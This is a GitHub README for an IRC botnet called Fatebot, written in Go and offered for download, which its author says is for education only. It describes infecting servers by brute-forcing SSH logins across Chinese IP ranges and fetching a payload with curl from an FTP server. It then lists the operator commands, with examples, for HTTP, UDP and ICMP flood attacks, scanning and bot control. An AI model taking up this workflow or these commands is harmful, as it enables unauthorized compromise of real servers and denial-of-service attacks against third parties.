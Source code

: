 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.2.2
This is my first IRC botnet for launch ddos attack, Write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more or change it, if you want.)</strong>
This botnet use "curl" to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range, And comment a function of running session.(That why bot is not join The server.)</strong>
<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood. Main DDoS function is on <strong>The Application layer</strong>.

<img src="img/posttraffic.png" alt="http post flood, dos example">

# Update Lists
<p><strong>Fate v0.1</strong> = Fatebot open release.</p>
<p><strong>Fate v0.2</strong> = Update get bot system information function and Add tutorial in main and scan file.</p>
<p><strong>Fate v0.2.1</strong> = Cut private scanning and OS signal by change it to delete when running. And change some IRC commands that will type easier.</p>
<p><strong>Fate v0.2.2</strong> = Fix scan function by Cut scan failed report for fix server overheat and excess Flood, 
  And Optimize by change ip range and default ping time, That will find SSH port faster.(Maybe but faster than old one.)</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Kick bot out of The server.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
